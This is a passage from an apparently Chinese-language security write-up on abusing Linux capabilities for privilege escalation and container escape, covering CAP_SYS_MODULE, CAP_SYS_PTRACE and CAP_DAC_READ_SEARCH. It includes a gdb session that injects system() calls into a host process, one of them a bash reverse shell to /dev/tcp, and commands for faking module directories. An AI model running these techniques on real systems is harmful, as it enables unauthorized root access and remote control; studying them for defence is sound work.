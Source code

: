 *   • kmod：可以利用该命令插入内核模块。
    

**当环境具有能力：** 

*   • 容器：创建内核模块，通过nc接收反弹的shell可以参考Docker容器突破:滥用SYS MODULE能力\[7\]和破解 Play-with-Docker 并在主机上远程运行代码\[8\]  。
    

当python具有该能力 默认情况下，`modprobe`命令检查目录中的依赖列表和映射文件`/lib/modules/$(uname -r)` 为了利用创建一个假的`lib/modules`文件夹。

```
mkdir lib/modules -p  
cp -a /lib/modules/5.0.0-20-generic/ lib/modules/$(uname -r)
```

CAP\_SYS\_PTRACE
----------------

**CAP\_SYS\_PTRACE：** 允许跟踪任何进程 `CAP_SYS_PTRACE` 允许使用 ptrace(2) 和最近引入的跨内存附加系统调用，如 process\_vm\_readv(2) 和 process\_vm\_writev(2) 。如果这个Capabilities被授予，并且 ptrace(2) 系统调用本身没有被 seccomp 过滤器阻止，这将允许攻击者绕过其他 seccomp 限制，请参考 PoC 在允许 ptrace 时绕过 seccomp\[9\]。

**当文件具有能力：** 比如python时还可以参考python Capabilities cap\_sys\_ptrace+ep提权\[10\]  。

**当环境具有能力：** 比如在docker内时，可以通过Shellcode注入\[11\]；或者当前环境具有`gdb`，可以从主机`debug`进程中调用`system`函数。

```
gdb -p 1234  
(gdb) call (void)system("ls")  
(gdb) call (void)system("sleep 5")  
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'")
```

CAP\_DAC\_READ_SEARCH
---------------------

**CAP\_DAC\_READ_SEARCH：** 忽略文件读及目录搜索的 DAC 访问限制。

CAP\_DAC\_READ_SEARCH 允许一个进程绕过文件读取和目录读取及执行的权限。虽然这被设计为用于搜索或读取文件，但它也授予进程调用`open_by_handle_at(2)`的权限。任何具有`CAP_DAC_READ_SEARCH`Capabilities的进程都可以使用`open_by_handle_at(2)`来获得对任何文件的访问，甚至是挂载命名空间之外的文件。传递给 `open_by_handle_at(2)` 的句柄被认为是使用 `name_to_handle_at(2)` 获取的不透明标识符。然而，这个句柄包含了敏感和可篡改的信息，如inode号码。这是Sebastian Krahmer用shocker\[12\]漏洞首次在Docker容器中显示的问题。

**当文件具有能力：** 

*   • **tar**
    

在根目录递归检测cap时发现tar具有`cap_dac_read_search`功能。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/6c902fbc-c0a8-43c7-af80-392712e77c03.png?raw=true)

  

当任何程序拥有cap\_dac\_read_searchCapabilities的有效集合时，这意味着它可以读取任何文件或对目录执行任何可执行的权限。该程序不能在目录中创建任何文件或修改现有文件，因为它需要写入权限，而这种Capabilities没有提供这种权限。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/13dae0e4-4768-4c17-b908-cffb75964ab3.png?raw=true)
